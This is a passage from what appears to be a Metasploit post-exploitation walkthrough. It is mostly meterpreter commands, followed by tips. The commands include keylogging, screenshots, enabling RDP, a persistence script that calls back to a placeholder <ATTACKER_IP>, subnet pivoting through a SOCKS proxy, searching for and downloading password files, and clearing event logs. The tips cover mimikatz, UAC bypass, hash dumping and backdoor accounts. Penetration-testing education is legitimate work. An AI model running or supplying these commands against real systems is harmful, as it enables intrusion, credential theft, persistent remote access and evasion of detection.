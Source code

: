 ```bash
keyscan_stop
screenshot
background

# 5) Persistence (only with explicit authorization)
use post/windows/manage/enable_rdp
set SESSION 1
run
back

# Legacy meterpreter script persistence example (User-logon persistence):
sessions -i 1
# Replace <ATTACKER_IP> and port
run persistence -U -i 10 -p 4444 -r <ATTACKER_IP>
background

# 6) Pivoting/Routes (if you discover internal subnets)
use post/multi/manage/autoroute
set SESSION 1
# Replace with discovered subnet and mask
set SUBNET 10.10.20.0
set NETMASK 255.255.255.0
run
back
# Optionally start a SOCKS proxy for pivoting:
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 1080
run -j

# 7) Loot and cleanup
# Download interesting files
sessions -i 1
# Example: search for passwords on Desktop/Documents
search -f *pass*.*
# Example: download file
download "C:\\Users\\Public\\Documents\\important.txt"
# Clear Windows event logs (engagement-permitting)
clearev
background
```

Notes:
- Metasploit loot is typically saved under: ~/.msf4/loot on Kali.
- For kiwi/mimikatz, a 64-bit, elevated session on 64-bit Windows yields the best results.

## Practical tips
- Use architecture-aware Meterpreter: x64 payload on x64 Windows. Migrate into a same-arch process before loading kiwi.
- Try getsystem after migrating; if UAC blocks, use a UAC bypass or local exploit suggested by local_exploit_suggester.
- Many post modules write artifacts/loot; track and label findings as you go for reporting.
- Expect AV/EDR to flag kiwi/mimikatz and persistence. Use in controlled labs or with explicit authorization only.
- If hashdump fails, smart_hashdump with GETSYSTEM=true often helps.
- keyscan_* works best when user is actively typing in the foreground session.
- enable_rdp requires admin rights and may change firewall settings; ensure you know credentials or create a backdoor account ethically and with authorization.
- Loot paths: look for browser passwords, unattended installs, Windows AutoLogon (HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon), config files.
